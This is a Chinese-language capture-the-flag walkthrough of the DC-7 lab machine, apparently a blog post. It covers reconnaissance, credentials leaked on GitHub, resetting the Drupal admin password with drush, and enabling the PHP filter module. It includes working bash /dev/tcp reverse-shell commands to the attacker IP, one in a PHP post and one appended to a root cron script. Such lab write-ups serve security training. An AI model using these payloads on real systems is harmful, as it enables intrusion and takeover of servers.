


# 前言

靶机：`DC-7`，IP地址为`192.168.10.13`

攻击：`kali`，IP地址为`192.168.10.2`

都采用`VMWare`，网卡为桥接模式

对于文章中涉及到的靶场以及工具，我放置在公众号中，在公众号发送`dc0106`即可获取相关工具

# 主机发现

使用`arp-scan -l`或者`netdiscover -r 192.168.10.1/24`

因为是靶机，所以在同一局域网中，这里使用这两个工具是因为在同一局域网中的扫描速度很快

当然，如果想要模拟真实渗透，可以使用`nmap`等扫描工具


# 信息收集 

## 使用nmap扫描端口

扫描目标的全端口，以及服务和操作系统信息

```shell
nmap -sV -O 192.168.10.13 -p-
```


## 网站信息探测

访问80端口默认界面，发现这个CMS之前见过，是`drupal`，不过这里给出的话有点东西，下面翻译看看


把这段话翻译，然后以图片来看，应该更直观


使用`whatweb`进一步确定`drupal`是否正确

```shell
whatweb http://192.168.10.13
```


这里看到是`drupal 8`在之前的`DC-1`靶场中是`drupal 7`版本，然后通过`msf`进行的攻击

但是这里不行，按照提示，虽然进行爆破没有什么用，但是还是进行一下目录扫描，不过这次感觉东西是真多，之前并未出现这种情况，感觉是作者为了再次的提醒一样，这里放一张图吧，是放在那里进行好久的目录爆破


# 漏洞寻找

再使用`burp`等工具尝试对登录进行一个爆破，发现若长时间的爆破，会使得其进行了限制，注意，这里是对账号进行的限制


尝试获取`js`代码，测试有无这方面的，但是发现基本上都是调用外部`js`，无用处

在发现的搜索处进行各种注入测试，发现也是不行，使用`sqlmap`测试，发现也是不行


抓取每个请求的数据包，发现也是无内容，那么尝试搜搜，看能否有源码之类的泄露，尝试直接搜索`drupal 8`，但是想到这里都是纯净的原始状态，除非进行代码审计，去把其中的代码进行分析，然后找出漏洞

啧，再找找。在网站的底部，发现一串字符，想来，平常这种位置，一般也是邮箱偏多，这种形式，还真是少见的，尝试对这个进行搜索`@DC7USER`


# 源码泄露

因为靶机属于国外的作者所制作，所以，这里建议采用`google`进行搜索，可以明确的看到，在`github`有项目


查看该项目，可以看到，`readme`文件，给出了方向，说明找对了方向


在众多代码中，我们要么就是进行代码审计，要么就是寻找配置文件

查看`config.php`文件，发现关键信息，项目地址`https://github.com/Dc7User/staffdb/blob/master/config.php`


连接数据库的用户名`dc7user`和密码`MdR3xOgB7#dW`

那么在之前端口扫描的时候，并未发现数据库相关的服务端口是开放的，那么就猜测这个用户名和密码，可能是多用的，尝试以这一组身份信息，登录网站

不过这里还是登录不了网站，啧，既然是登录，就不应该如此，说明这一组不是网站的

还有`ssh`服务，尝试进行登录，登录成功


# 提权点寻找

查看当前目录下的文件`mbox`，发现好多信息


到备份数据库数据的目录下，查看，发现数据大小为0


那么查看其中的备份脚本，看以所属者和所属组，以及脚本内容，好家伙，是`gpg`加密，但是文件无内容，并且尝试解密，也是只有`gpg: decrypt_message failed: Unknown system error`

并且这个脚本所属组是`www-data`，加入脚本可以修改或者使用临时环境变量，也都无法提权至`root`



# 错误的提权

使用`find`寻找具有SUID权限文件，发现一个文件，是不是很眼熟，这里在前面的`DC-4`靶机一样

```shell
find / -perm -4000 -print 2>/dev/null
```


这里与前面的`mbox`文件中的信息提到的一样，还是再确定一下版本

```shell
/usr/sbin/exim4 --version
```


在`kali`中使用`searchsploit`搜索对应的版本漏洞，并复制到当前目录下


如果忘了用法，这里再查看这个脚本即可，脚本文件名加上后面两种即可


然后把这个脚本上传到靶机，可以使用`python`配合`wget`或者直接使用`scp`，因为这里是以`ssh`连接

```shell
scp ./46996.sh dc7user@192.168.10.13:/tmp
```


这里还可以看到，该脚本具有执行权限，直接执行，但是发现不行


# 正确的提权方向

那么只能再次回到备份文件脚本的问题，也就是`/opt/scripts/backups.sh`

因为当前用户`dc7user`还不属于`www-data`组，也就是说，两个办法，要不切换到`www-data`，要不就是`root`

对于现在的情况来说，只能切换到`www-data`

这里我在`/var/www/html`中找到配置文件`settings.php`，发现其中连接数据库的账号与密码


但是连接数据库后，发现这里面只是记录网站访问等一些信息，并没有用户信息保存在这里

回头查看`/opt/scripts/backups.sh`脚本，发现这里除了`gpg`无用，还有一个命令没接触过`drush`

使用`AI`搜索一下

>Drush 是 Drupal 的配套工具
>
>- Drupal 是一个功能强大的内容管理系统（CMS），用于构建和管理网站。它提供了丰富的网站构建模块、主题系统、用户管理、内容发布等功能。然而，在实际的网站管理和开发过程中，仅仅通过 Drupal 的图形界面来操作可能会比较繁琐。
>- 当 Drush 是通过 Composer 在项目本地安装时，它通常位于项目的`vendor/bin/`目录下。例如，如果你的 Drupal 项目位于`/var/www/drupal_project/`，并且通过 Composer 安装了 Drush，那么 Drush 可执行文件可能位于`/var/www/drupal_project/vendor/bin/drush`

这里列出`drush`的增、删、改、查的操作

```shell
#增操作
drush user-create [new_user_name] --mail=[user_email] --password=[user_password]
#其中[new_user_name]是新用户的用户名，--mail选项用于指定用户的电子邮件地址，--password选项用于指定用户的密码。

#删操作
drush user-cancel [user_name]

#改操作
drush user-password [user_name] -password=[new_password]
#其中[user_name]是要更改密码的用户名，[new_password]是新密码。

#查操作
drush user-list
#列出用户情况
```

我这里因为执行命令时，出现错误，把`admin`删除了，所以这里重装靶机，唉😔，不过IP地址没有变

这里测试后，发现只有改和删的操作是可以的

```shell
drush user-password admin --password=123
```



登录网站，为什么，因为根据备份文件，要获取`www-data`的身份

经过测试，发现并没有可利用点，不过这里可以安装模块，因为网站当前身份是`admin`

在`extend`中，尝试安装一些模块，当然这里可以访问其官方网站，然后通过这里去下载

图中，蓝色超链接的标志，这里提供官网模块地址，访问后，可以直接搜索寻找

```shell
https://www.drupal.org/project/project_module
```


但是这里我原本打算，把模块文件下载到`kali`中，然后修改其中的内容，但是发现本地无法上传成功，不管有无修改，这个方式都不行


## 获取www-data的反弹1shell

只能采取第一种方式，链接下载，这里的地址，在输入框下面已经给出提示了

```shell
For example: https://ftp.drupal.org/files/projects/name.tar.gz
```

既然无法修改，那么就安装`php`模块，因为搜索发现在8版本中，取消了这个，所以需要自己主动安装。

可以先访问下面的链接地址，来确定当前版本可支持使用的`php`

```shell
https://www.drupal.org/project/php/releases/8.x-1.0
```


然后构造链接，从URL下载

```shell
https://ftp.drupal.org/files/projects/php-8.x-1.0.tar.gz
```


然后在扩展列表界面，下滑，找到`php filter`，把这个勾选上，然后再下滑到最后，点击`install`


成功启动


打开一个文章，然后对其进行编辑，可以发现，可以更改其为`php`代码的形式


那么新建一个文章，然后使用`php`格式，然后进行保存

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/9999 0>&1'");
//system($_REQUEST['cmd']);		//用于测试使用
?>
```

当然，在执行上面的反弹`shell`时，需要先在`kali`中开启监听

```shell
nc -lvvp 9999
```

获取到`www-data`的`bash`


# 提权至root

然后在该脚本的末尾加入反弹`shell`代码，不过需要在`kali`另起终端，监听8888端口

```shell
echo "/bin/bash -c 'bash -i >& /dev/tcp/192.168.10.2/8888 0>&1'" >> backups.sh
```

如果，这条命令不行，就可以在`https://forum.ywhack.com/shell.php`测试合适的，添加就是了


查看`flag`


> 这里补充说一下，对于脚本backups.sh，修改后，不要执行，一旦执行，是以当前用户的身份，也就是`www-data`执行的，是无法提权的。
>
> 这里我忘了放图了，在前面，我是借助工具`pspy64`获取到`backups.sh`会以`root`身份执行，只是时间间隔有点大，所以当时没有截图
>
> 该工具项目地址`https://github.com/DominicBreuker/pspy/releases`

# 总结

该靶场考察以下几点：

1. 对于信息收集时，源码泄露能否会寻找，这里是通过一个作者名搜索到`gihub`的项目
2. 对于提权时，发现的东西都要去试一试，这里先测试`exim4`不行后，再下手脚本文件
3. 对于脚本文件的所属者和所属组要搞清楚，这里`dc7user`不属于`www-data`组，所以还需要获取`www-data`用户的反弹`shell`，那么就需要从网站下手
4. 对于`drush`和`drupal`是配合使用的，所以简单了解`drush`的增删改查即可
5. `drupal 8`下载扩展模块，可以自己选择，不过出于安全，版本8没有`php`，所以可以安装`php`
6. 通过`php`中的函数，可执行命令，来获取`www-data`是`shell`
7. 通过`pspy64`观察有`root`执行的定时任务，并且是脚本`backups.sh`，用户`www-data`可修改。获取到`www-data`的`bash`后，就可以修改文件，添加反弹`shell`的命令，等待`root`去执行这个定时任务，触发脚本中的反弹`shell`代码


